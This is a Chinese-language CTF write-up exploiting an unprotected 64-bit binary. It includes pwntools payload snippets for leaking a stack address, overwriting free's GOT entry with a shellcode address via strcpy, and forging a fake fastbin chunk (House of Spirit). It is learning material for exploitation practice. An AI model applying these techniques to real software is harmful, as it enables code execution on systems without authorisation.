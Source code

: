 # 入手
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
```
各种保护都没开

#程序流程

## 1.输入name
```
for(int i=0;i<=47;i++)
    read(0,name,1);
```
但是这个时候栈是<br>
- (low)
- i         
- ret_val
- name_str
- rbp     
- (high)<br>
如果把name_str填满 就能够在printf的时候打印出栈内保持的ebp 然后算出可以使用的栈地址<br>

## 2.输入id 
```
for(int i=0;i<=3;i++)
    read(0, buf_tmp, 1);
```
限制数字0-9 读入后转换为整数<br>
## 3."give me money~"
```
read(0,buf,0x40);
strcpy (buf_mal, buf);
```
buf_mal是malloc申请的(预计是堆溢出)<br>
然后由全局指针(ptr)来指向这个空间<br>
到这里乍一看好像没什么问题<br>
仔细一点就发现有栈溢出，可以覆盖buf_mal地址
```
buf= byte ptr -40h
dest= qword ptr -8
```
这里直接把堆的地址覆盖成got里free的地址<br>
然后strcpy的时候把free的地址改成shellcode的地址

## 4.分支选择

### choice 1:
限制在0,0x80<br>
ptr = malloc(0x80)<br>
ptr 指向输入的money<br>
上面可以看到之前申请的空间没有释放<br>
最后然后输出之前输入的内容<br>
### choice 2:
test ptr是不是0<br>
0 : 直接输出"havn't check in"然后返回<br>
1 : 释放ptr<br>

### choice 3:
直接返回<br>
### 其他
提示不合法<br>

# 突破点
在choice1 和 choice2那里<br>
开始ptr先有0x40的空间<br>

## 方法

## 1.就是利用strcpy修改got表中free的地址到shellcode地址
然后free
```
# 关键1
shellcode + 'A'*(0x30-len(shellcode))
# 关键2
payload = p64(stack_addr) + 'A'*0x30 + p64(free_got)
# 完成
p.recvuntil('choice : ')
p.send('2\n')
```
第一个就是泄露出栈内ebp的值 然后算出name_str的地址<br>
第二个就是把chunk地址覆盖成got表的free地址 然后利用strcpy把这个地址覆盖成刚刚活动的name_str地址(存放shellcode了) 然后调用free<br>

## 2.THE HOUSE OF SPIRIT
studying
需要构造合适的mem<br>
```
p.recvuntil('money~')
fake_chunk = 'A'*0x8
fake_chunk += p64(0x61)
fake_chunk += 'A'*0x28
fake_chunk += p64(stack_addr)
p.send(fake_chunk)
```
这里stack_addr调整到了刚刚好是0x61的后面的位置，所以0x61就作为这个mem的size了<br>
关于next_size 由于之前要求输入id 并且这个id值保存在比stack_addr指向的位置高的地方，所以0x61就是根据这个确定的(0x60+1 1是标志位)<br>
***next_size有约束条件***
```
if(chunk_at_offset(p, size)->size <= 2*SIZE_SZ || \
_builtin_expect(chunksize)(chunk_at_offset(p,size) >= av->system_mem,0))
{
    errstr = "free(): invalid next size fast";
    goto errout;
}
```
2*SIZE_SZ < next_size < system_max_mem
```
p.recvuntil('id ~~?')
p.sendline(str(0x20))
```

这样构造之后进行free就会让刚刚构造的mem加入fastbin中<br>
然后调用malloc就又把刚刚的mem中chunk的地址返回给我们，利用返回的值，然后覆盖到某个rsp，最后跳出循环，就能执行shell了。<br>

# Tips
1. 内存泄漏
2. 堆地址覆盖
3. 栈偏移固定
4. 利用了两个可控的位置作为size+8和next_size构造house of spirit

